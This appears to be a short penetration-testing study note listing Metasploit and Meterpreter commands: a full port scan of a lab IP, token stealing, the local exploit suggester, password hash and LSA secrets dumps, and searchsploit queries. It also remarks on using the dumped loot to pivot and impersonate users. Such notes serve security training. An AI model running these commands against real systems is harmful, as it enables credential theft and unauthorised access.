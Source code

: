 # Meterpreter
MSF scanning target
msf6: `db_nmap -sV -p- -T5 -A 10.10.10.15`
We can thereafter query for `services` or `hosts`

We can steel tokens with `steal_token <nr>`

we can get suggestions for exploits: `post/multi/recon/local_exploit_suggester  `
We can get user id from session: `meterpreter > getuid`

### MSF - Dumping Hashes
`meterpreter > hashdump`
`lsa_dump_sam`

### MSF - Meterpreter LSA Secrets Dump
`meterpreter > lsa_dump_secrets`

From this point, if the machine was connected to a more extensive network, we could use this loot to pivot through the system, gain access to internal resources and impersonate users with a higher level of access if the overall security posture of the network is weak.

# Writing and Importing Modules
If we cannot find the exploit we're looking for, 
search in cli: `searchsploit nagios3 (name)`
Filter: `searchsploit -t Nagios3 --exclude=".py"`
